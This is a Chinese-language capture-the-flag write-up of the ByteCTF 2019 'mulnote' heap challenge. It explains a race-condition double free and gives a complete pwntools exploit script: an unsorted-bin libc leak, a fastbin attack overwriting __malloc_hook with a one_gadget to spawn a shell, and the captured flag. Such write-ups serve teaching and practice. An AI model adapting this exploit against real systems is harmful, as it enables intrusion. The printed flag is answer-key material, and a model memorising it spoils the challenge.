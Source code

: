 首发：http://blog.leanote.com/post/xp0int/%5BPWN%5D-mulnote-xfiles

```
ByteCTF 2019 mulnote
Points: 249 Solved: 49
nc 112.126.101.96 9999
```
代码有混淆，不过很容易看出是条件竞争漏洞。

释放 chunk 时使用了多线程。调用`free`函数与清空 chunk 指针之间相隔了整整10秒，能够触发 double free。

先用`unsorted bin`泄漏`libc`基地址，然后利用 fastbin attack 向`__malloc_hook`写入 one_gadget，实现 getshell。

```
# -*- coding:utf-8 -*-
from pwn import *
import time

context(log_level='debug')

p = process('./mulnote')
#p = remote("112.126.101.96", 9999)

def add(sz, ctx='\n'):
    p.sendlineafter('>', 'C')
    p.sendlineafter('>', str(sz))
    p.sendafter('>', ctx)

def free(idx):
    p.sendlineafter('>', 'R')
    p.sendlineafter('>', str(idx))

def show():
    p.sendlineafter('>', 'S')

################# Unsorted bin 泄漏 libc 地址 ######################

add(0x400) # idx: 0
free(0)
time.sleep(10) # 等待释放完成...

add(0x400) # idx: 0
show()
p.recvuntil("[0]:\n")
libc_base = u64(p.recv(6).ljust(8, '\0')) - 0x3c4b0a

######################## Fastbin Attack ############################

add(0x68) # idx:1
add(0x68) # idx:2

free(1)
time.sleep(3) # 已执行 free 函数，但还没有清空 chunk #1 的指针
free(2)
free(1)
time.sleep(10) # 等待所有的 chunk 释放完成...

fake_chunk = libc_base + 0x3c4aed

add(0x68, p64(fake_chunk))
add(0x68)
add(0x68)
one_gadget = libc_base + 0x4526a
add(0x68, 'A'*0x13 + p64(one_gadget))

p.sendlineafter('>', 'C')
p.sendlineafter('>', str(0x1234))

# bytectf{4f10583325b7a40ecd770dbb6fd54d59}
p.sendline('cat flag')

p.interactive()

```

